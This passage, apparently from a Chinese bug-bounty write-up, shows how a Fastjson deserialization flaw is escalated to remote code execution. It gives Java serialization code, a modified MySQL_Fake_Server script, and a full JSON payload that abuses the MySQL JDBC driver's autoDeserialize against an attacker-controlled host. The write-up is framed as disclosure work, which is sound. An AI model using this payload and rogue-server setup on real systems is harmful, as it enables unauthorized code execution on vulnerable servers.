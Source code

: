 ![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicnYm6abVBnsc9gTr7fSnfYs6Xh6Sp5mSdXf9r2DmrVUEz7sRaYXH2FZyn8LtqR0OJbtbbpDaSpGicg/640?wx_fmt=png&from=appmsg "")  
  
既然能正常执行反序列化操作，那么下一步就需要测试命令执行。这里使用到了@Y4tacker大佬给出的利用链  
  
  
https://paper.seebug.org/2067/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicnYm6abVBnsc9gTr7fSnfYs3XXlNibSgBbgORMEmlUJvTNibdslIYAia5MPHtuhnfTg9MCdec1L6kAww/640?wx_fmt=png&from=appmsg "")  
## 代码微调  
  
  
直接拿文章中给出的代码进行修改，添加这段代码，将反序列化的内容保存到文件中。自定义执行命令  
```
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("fastjson1268.bin"));
oos.writeObject(hashMap);
oos.close();
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicnYm6abVBnsc9gTr7fSnfYsoicobrjIMjGtZ2jpAbibwbCeXcH6wic8TNCKhs0zK77o1hEOCjMyibB7Vg/640?wx_fmt=png&from=appmsg "")  
  
还要修改MySQL_Fake_Server  
项目server.py文件，get_yso_content函数的内容，让其从指定文件中读取  
```
with open(r'fastjson1268.bin','rb') as f:
    file_content = f.read()
return file_content
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicnYm6abVBnsc9gTr7fSnfYsia6d69fbWiaA1PYYE8DpXXib3NyzIFcOlcOBLAygc58ehbsAlTz2uXHnQ/640?wx_fmt=png&from=appmsg "")  
  
将生成的fastjson1268.bin放到server.py文件同级目录中，运行server.py文件  
  
user填入yso_xxx就能触发server.py的get_yso_content函数，此时fastjson测试payload为  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "yso_URLDNS_http://YOUR_DNSLOG",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
很幸运系统成功触发了命令执行ping xx.dnslog.com  
  
  
到此就完成了RCE，证明漏洞危害，提交报告。  
  